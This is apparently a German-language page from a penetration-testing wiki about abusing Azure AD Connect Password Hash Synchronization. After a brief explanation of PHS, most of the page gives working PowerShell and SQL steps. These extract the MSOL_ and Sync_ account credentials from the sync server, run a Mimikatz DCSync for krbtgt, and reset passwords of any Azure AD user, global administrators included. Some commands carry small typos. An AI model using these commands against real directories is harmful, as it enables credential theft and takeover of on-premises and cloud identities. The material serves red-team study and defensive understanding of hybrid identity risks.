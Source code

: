 # Az - PHS - Password Hash Sync

{{#include ../../../../banners/hacktricks-training.md}}

## Grundlegende Informationen

[Aus den Dokumenten:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Password Hash Synchronization** ist eine der Anmeldemethoden, die verwendet wird, um hybride Identität zu erreichen. **Azure AD Connect** synchronisiert einen Hash, des Hashes, des Passworts eines Benutzers von einer lokalen Active Directory-Instanz zu einer cloudbasierten Azure AD-Instanz.

<figure><img src="../../../../images/image (173).png" alt=""><figcaption></figcaption></figure>

Es ist die **häufigste Methode**, die von Unternehmen verwendet wird, um ein lokales AD mit Azure AD zu synchronisieren.

Alle **Benutzer** und ein **Hash der Passwort-Hashes** werden vom lokalen AD zu Azure AD synchronisiert. Allerdings werden **Klartext-Passwörter** oder die **ursprünglichen** **Hashes** nicht an Azure AD gesendet.\
Darüber hinaus werden **eingebaute** Sicherheitsgruppen (wie Domänenadministratoren...) **nicht synchronisiert** mit Azure AD.

Die **Hash-Synchronisation** erfolgt alle **2 Minuten**. Standardmäßig werden jedoch **Passwortablauf** und **Kontenablauf** **nicht synchronisiert** in Azure AD. Ein Benutzer, dessen **lokales Passwort abgelaufen ist** (nicht geändert), kann weiterhin **auf Azure-Ressourcen zugreifen** mit dem alten Passwort.

Wenn ein lokaler Benutzer auf eine Azure-Ressource zugreifen möchte, erfolgt die **Authentifizierung in Azure AD**.

**PHS** ist erforderlich für Funktionen wie **Identity Protection** und AAD-Domänendienste.

## Pivotierung

Wenn PHS konfiguriert ist, werden einige **privilegierte Konten** automatisch **erstellt**:

- Das Konto **`MSOL_<installationID>`** wird automatisch im lokalen AD erstellt. Dieses Konto erhält eine **Directory Synchronization Accounts**-Rolle (siehe [Dokumentation](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)), was bedeutet, dass es **Replikationsberechtigungen (DCSync) im lokalen AD** hat.
- Ein Konto **`Sync_<Name des lokalen ADConnect-Servers>_installationID`** wird in Azure AD erstellt. Dieses Konto kann das Passwort von **JEDEM Benutzer** (synchronisiert oder nur Cloud) in Azure AD **zurücksetzen**.

Die Passwörter der beiden vorherigen privilegierten Konten werden **in einem SQL-Server** auf dem Server gespeichert, auf dem **Azure AD Connect installiert ist.** Administratoren können die Passwörter dieser privilegierten Benutzer im Klartext extrahieren.\
Die Datenbank befindet sich in `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Es ist möglich, die Konfiguration aus einer der Tabellen zu extrahieren, wobei eine verschlüsselt ist:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

Die **verschlüsselte Konfiguration** ist mit **DPAPI** verschlüsselt und enthält die **Passwörter des `MSOL_*`** Benutzers im lokalen AD und das Passwort von **Sync\_\*** in AzureAD. Daher ist es möglich, durch das Kompromittieren dieser Privilegien auf das AD und AzureAD zuzugreifen.

Sie finden eine [vollständige Übersicht darüber, wie diese Anmeldeinformationen gespeichert und entschlüsselt werden, in diesem Vortrag](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Finden des **Azure AD Connect-Servers**

Wenn der **Server, auf dem Azure AD Connect installiert ist**, mit der Domäne verbunden ist (in den Dokumenten empfohlen), ist es möglich, ihn mit zu finden:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Missbrauch von MSOL\_\*
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
> [!CAUTION]
> Sie können auch [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) verwenden, um diese Anmeldeinformationen zu erhalten.

### Missbrauch von Sync\_\*

Durch Kompromittierung des **`Sync_*`** Kontos ist es möglich, das **Passwort** eines beliebigen Benutzers (einschließlich globaler Administratoren) zurückzusetzen.
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Es ist auch möglich, **die Passwörter nur von Cloud**-Benutzern zu **ändern** (auch wenn das unerwartet ist)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Es ist auch möglich, das Passwort dieses Benutzers zu dumpen.

> [!CAUTION]
> Eine andere Option wäre, **privilegierte Berechtigungen für ein Dienstprinzipal zuzuweisen**, was der **Sync**-Benutzer **berechtigt** ist zu tun, und dann **auf dieses Dienstprinzipal zuzugreifen** als eine Möglichkeit der Privilegieneskalation.

### Nahtloses SSO

Es ist möglich, nahtloses SSO mit PHS zu verwenden, das anfällig für andere Missbräuche ist. Überprüfen Sie es in:

{{#ref}}
seamless-sso.md
{{#endref}}

## Referenzen

- [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
- [https://aadinternals.com/post/on-prem_admin/](https://aadinternals.com/post/on-prem_admin/)
- [https://troopers.de/downloads/troopers19/TROOPERS19_AD_Im_in_your_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19_AD_Im_in_your_cloud.pdf)
- [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{{#include ../../../../banners/hacktricks-training.md}}

